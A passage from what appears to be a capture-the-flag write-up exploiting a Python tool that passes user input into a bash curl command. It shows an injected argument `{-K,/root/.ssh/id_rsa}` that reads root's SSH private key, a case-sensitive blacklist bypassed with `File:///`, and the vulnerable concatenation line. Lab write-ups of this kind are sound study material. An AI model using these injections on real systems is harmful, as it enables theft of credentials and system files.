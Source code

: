 it is possible to read files from stderr of curl with `-K` but this messed-up the file.
```bash
{-K,/root/.ssh/id_rsa}
```

![](screenshots/read-root-rsa.png)

There is a one comparison in the python source that blacklisting some protocols
```py
if 'file' in ip and 'gopher' in ip or 'mysql' in ip:
print('INVALID URL')
```

But this is case sensitive and eassliy bypass capital character like `File`, `Gopher`, `Mysql` without affecting the behaviour in curl command.
```bash
code@code:~$ curl File:///etc/hostname
code
```

but there is one more error, in the source code curl command outputting in the `/root/reports/` directory
```py
cmd = '/bin/bash -c "curl ' + ip + ' -o /root/reports/threat_report_' + current_time + '"'
```

but it looks like that direcotry in not presented there.

![](screenshots/no-dir-error.png)
